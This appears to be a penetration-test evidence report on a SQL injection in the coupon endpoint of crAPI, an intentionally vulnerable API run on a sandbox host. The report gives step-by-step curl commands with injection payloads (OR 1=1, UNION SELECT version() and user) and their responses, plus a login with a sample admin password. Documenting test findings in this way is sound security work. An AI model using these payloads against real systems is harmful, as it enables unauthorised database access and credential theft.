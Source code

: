 # Injection Exploitation Evidence

## Successfully Exploited Vulnerabilities

### INJ-VULN-03: PostgreSQL SQL Injection via Coupon Validation

**Summary:**
- **Vulnerable location:** `/workshop/api/shop/apply_coupon` endpoint, `coupon_code` parameter
- **Overview:** Complete SQL injection exploitation achieving database version disclosure, table enumeration, and sensitive data extraction via UNION-based queries
- **Impact:** Full database compromise with extraction of user credentials and system information
- **Severity:** Critical

**Prerequisites:**
- Valid JWT authentication token
- POST request with both `coupon_code` and `amount` parameters

**Exploitation Steps:**

1. **Authenticate and obtain JWT token:**
```bash
curl -k -X POST https://crapi.sandbox.local:8888/identity/api/auth/login \
  -H "Content-Type: application/json" \
  -d '{"email": "admin@example.com", "password": "Admin!123"}'
```
Response: JWT token in the `token` field

2. **Confirm SQL injection vulnerability:**
```bash
curl -k -X POST https://crapi.sandbox.local:8888/workshop/api/shop/apply_coupon \
  -H "Authorization: Bearer [JWT_TOKEN]" \
  -H "Content-Type: application/json" \
  -d '{"coupon_code": "'\'' OR 1=1--", "amount": 100}'
```
Response: `{"message":"TESTCOUPON20 Coupon code is already claimed by you!! Please try with another coupon code"}`

3. **Extract database version information:**
```bash
curl -k -X POST https://crapi.sandbox.local:8888/workshop/api/shop/apply_coupon \
  -H "Authorization: Bearer [JWT_TOKEN]" \
  -H "Content-Type: application/json" \
  -d '{"coupon_code": "'\'' AND 1=2 UNION SELECT version()--", "amount": 100}'
```
Response: `{"message":"PostgreSQL 14.19 (Debian 14.19-1.pgdg13+1) on x86_64-pc-linux-gnu, compiled by gcc (Debian 14.2.0-19) 14.2.0, 64-bit Coupon code is already claimed by you!! Please try with another coupon code"}`

4. **Extract current database user:**
```bash
curl -k -X POST https://crapi.sandbox.local:8888/workshop/api/shop/apply_coupon \
  -H "Authorization: Bearer [JWT_TOKEN]" \
  -H "Content-Type: application/json" \
  -d '{"coupon_code": "'\'' AND 1=2 UNION SELECT user--", "amount": 100}'
```
Response: `{"message":"admin Coupon code is already claimed by you!! Please try with another coupon code"}`
